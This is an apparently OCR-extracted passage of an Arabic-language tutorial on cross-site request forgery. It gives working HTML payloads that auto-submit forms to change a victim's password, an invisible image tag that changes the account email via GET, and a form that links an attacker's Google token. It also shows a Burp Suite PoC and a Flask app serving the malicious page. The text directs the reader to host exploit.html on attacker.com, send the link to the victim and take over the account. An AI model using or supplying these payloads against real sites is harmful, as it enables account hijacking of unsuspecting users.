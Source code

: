 ```html
    <script>
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
```
- احفظ الكود ده كملف `exploit.html`، واستضفه على سيرفر (مثل Python Flask أو Apache).
- أرسل رابط الصفحة للضحية (مثل: `http://attacker.com/exploit.html`). لما الضحية يفتحها، كلمة السر هتتغير، وتقدر تسجل دخول بالباسوورد الجديد.

#### **مثال عملي 2: سرقة حساب بتغيير الإيميل (GET)**
افترض موقع بيسمح بتغيير الإيميل بطلب GET زي ده:
```
/update-email?email=attacker@example.com
```
- ممكن تستخدم صورة خبيثة:
```html
<img src="/update-email?email=attacker@example.com" width="0" height="0">
```
- حط الكود ده في بريد إلكتروني أو موقع مزيف. لما الضحية يزور الصفحة، الإيميل هيتغير، وتقدر تستخدم خاصية "نسيت كلمة السر" عشان تتحكم في الحساب.

#### **مثال عملي 3: ربط حساب خارجي (POST)**
افترض موقع بيسمح بربط حساب Google بطلب POST:
```
POST /link-account
Content-Type: application/x-www-form-urlencoded
provider=google&token=attacker_google_token
```
- اعمل كود HTML:
```html
<form action="/link-account" method="POST" id="csrf-form">
  <input type="hidden" name="provider" value="google">
  <input type="hidden" name="token" value="attacker_google_token">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```
- لو نجح، حساب الضحية هيتربط بحساب Google بتاعك، وتقدر تسجل دخول بيه.

#### **استخدام أدوات**:
- **Burp Suite**:
  - سجّل طلب تغيير كلمة السر أو الإيميل.
  - استخدم **Engagement Tools > Generate CSRF PoC** لإنشاء كود هجوم جاهز.
  - مثال PoC من Burp:
    ```html
    <form action="/change-password" method="POST">
      <input type="hidden" name="new_password" value="attacker123">
      <input type="submit" value="Submit request">
    </form>
    <script>document.forms[0].submit();</script>
    ```
- **Python Flask** (لإنشاء صفحة خبيثة):
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def csrf_exploit():
    return render_template_string('''
    <form action="/change-password" method="POST" id="csrf-form">
      <input type="hidden" name="new_password" value="attacker123">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ''')
```